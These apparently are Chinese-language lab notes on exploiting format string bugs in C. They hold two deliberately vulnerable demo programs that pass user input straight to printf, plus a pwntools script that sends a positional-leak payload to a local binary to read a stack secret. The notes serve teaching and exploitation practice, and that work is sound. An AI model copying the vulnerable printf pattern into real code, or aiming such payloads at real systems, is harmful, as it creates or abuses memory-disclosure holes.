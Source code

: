 目标：

- 任意读：泄露敏感信息；泄露栈地址；泄露堆地址；泄露程序段地址；泄露 libc 地址；泄露各种不应该看到的东西……
- 任意写：劫持和控制流有关的对象，如 GOT 表等……

### 泄露栈上已有数据

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
	char key_in_stack[32] = "sensitive key";
	char buffer[512] = {0};

	scanf("%s", buffer);
	getchar();
	printf(buffer);

	return 0;
}
```

```python
from pwn import *
# from binascii import unhexlify

context.arch = "i386"
context.log_level = "debug"

p = process("./demo1")
# gdb.attach(p)
payload = b"FUCK" + b"%$11p" # 格式化字符串在栈的偏移 11 处

p.sendline(payload)
p.recvuntil("FUCK")
content = p.recv()
# print(unhexlify(content[2:])[::-1])
print(u32(content))

p.interactive()
```

### 通过 %s 泄露非栈上内容

```cpp
#include <stdio.h>
#include <stdlib.h>

char key_in_global[32] = "verysecure";

int main(int argc, char* argv[])
{
	char buffer[512] = {0};

	scanf("%s", buffer);
	getchar();
	printf(buffer);

	return 0;
}
```
